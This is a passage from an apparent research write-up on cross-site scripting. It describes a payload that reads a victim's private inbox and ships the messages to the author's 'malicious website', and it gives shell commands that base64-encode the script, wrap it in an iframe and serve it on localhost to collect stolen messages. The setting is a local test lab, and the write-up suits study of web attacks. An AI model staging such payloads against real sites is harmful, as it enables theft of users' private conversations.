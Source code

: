     1. Target gets the exploit delivered
    2. Target follows the iFrame
    3. Target executes the script, sending requests...
       ...and ultimately sends the final POST request, which creates the new post.

C. Read a user's private conversations.
-----------------------------------------

So, here I hand-crafted an exploit[Appendix3TODO](https://github.com/centime/xss-paper/blob/master/payloads/read-private.js) 
. This is classic javascript programming, so I won't explain in detail, but here is what it does when executed :
    
    -request user/messages/inbox
    -parse the response to get the private messages received. For each, we can extract title, author, and a link to the content
    -request each of thoses new links
    -parse the responses to get the content of each message
    -wrap it all in a serialized json, urlencode, and ship it in a GET request to our malicious website.

Of course, like most exploits, this code isn't a piece of art. But hey, it works. Now, let's package it, as we did for the previous one :

    #Base64 encode the JS
    base64 -w0 read-private.js > read-private.b64

    #Put everything together in an iFrame
    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/read-private.b64)'></iframe>" > malicious-website/read-private.html

    #Start our malicious website
    cd malicious-website && python3 -m http.server 1337

When an authenticated user (test2 in my case) visits localhost:1337/read-private.html, our malicious server quicly receives a GET containing all the stolen messages :

![Exploit : reading private messages](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/read-private.png)
